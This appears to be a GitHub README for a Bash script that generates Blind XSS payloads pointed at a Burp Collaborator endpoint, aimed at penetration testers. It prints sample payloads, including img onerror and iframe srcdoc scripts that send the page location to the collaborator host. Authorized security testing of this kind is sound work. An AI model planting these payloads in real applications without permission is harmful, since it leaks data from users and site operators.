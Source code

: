 # Blind XSS Payload Generator

A simple, customizable Blind XSS payload generator tool for penetration testers and security researchers. This script takes user input for a Burp Collaborator or similar endpoint URL, replaces placeholders in pre-defined Blind XSS payloads, and outputs a ready-to-use list of payloads that can be used in security assessments.

# Features
- Pre-defined Blind XSS payloads for various scenarios
- Easy customization of payloads by specifying your endpoint URL
- Generates payloads that trigger callbacks with valuable information from vulnerable web applications

# Requirements
- Bash (Unix-based OS recommended)
- curl (for testing and verification, if needed)

# Usage
1. Clone the repository:

```
git clone https://github.com/yourusername/blind_xss_payload_generator.git
cd blind-xss-payload-generator
```

2. Run the script:

```
./generate_payloads.sh
```

The script will ask for:

- A Burp Collaborator or similar URL
- A filename for saving the generated payloads

3. Inspect the output: The output file (e.g., blind_xss_payloads.txt) will contain customized Blind XSS payloads using your specified endpoint URL.

# Example

```
$ ./generate_payloads.sh
Enter your Burp Collaborator URL: https://example.burpcollaborator.net
Enter the output filename (e.g., blind_xss_payloads.txt): my_blind_xss_payloads.txt
```

Payloads generated and saved to my_blind_xss_payloads.txt

Some examples of the generated payloads:

```html
<img src="https://example.burpcollaborator.net/image">
<img src="https://example.burpcollaborator.net/image-only" onerror='this.src="https://example.burpcollaborator.net/image-xss?"+btoa(document.location)'>
<iframe srcdoc='<script>window.location="https://example.burpcollaborator.net/iframe-srcdoc?"+btoa(parent.document.location)</script>'></iframe>
```

# Notes
Testing in Legal Environments: This tool should only be used in environments where you have permission to perform security assessments. Unauthorized testing may violate laws and ethical guidelines.
Customization: The payloads can be modified directly in the script or via del.txt and blind_xss_payloads.txt files for even more variations.

# License
This project is licensed under the MIT License.


